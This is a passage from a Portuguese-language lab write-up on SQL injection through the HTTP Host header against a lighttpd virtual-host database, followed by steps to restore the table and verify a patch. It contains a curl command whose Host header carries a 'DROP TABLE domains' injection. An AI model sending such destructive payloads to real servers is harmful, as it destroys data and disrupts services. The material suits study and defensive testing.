 
Podemos prosseguir então com comandos destrutíveis!

```sh
$ ./scripts/exploit3
curl --header "Host: []'; DROP TABLE domains;--'" redes.io
```

**Requisição HTTP maliciosa**
![Requisição HTTP maliciosa](assets/sql-injection-HTTP-request.png)

**Requisição MySQL maliciosa**
![Requisição MySQL maliciosa](assets/sql-injection-MySQL-request.png)

**Reposta MySQL**
![Resposta requisição MySQL maliciosa](assets/sql-injection-MySQL-response.png)

E a tabela se foi! Consequentemente o servidor não será capaz de resolver hosts virtuais além daquele configurado como padrão.


### Verificação do Patch

Como nosso banco de dados perdeu a tabela de virtual hosting precisamos recuperá-la. Para isto basta executarmos, dentro do container, o processo de criação de tabela e inserção dos valores:

```
$ docker exec $DOCKER_MYSQL "bash" "-c" "mysql -u root -ptoor lighttpd < /db-init.sql"
```
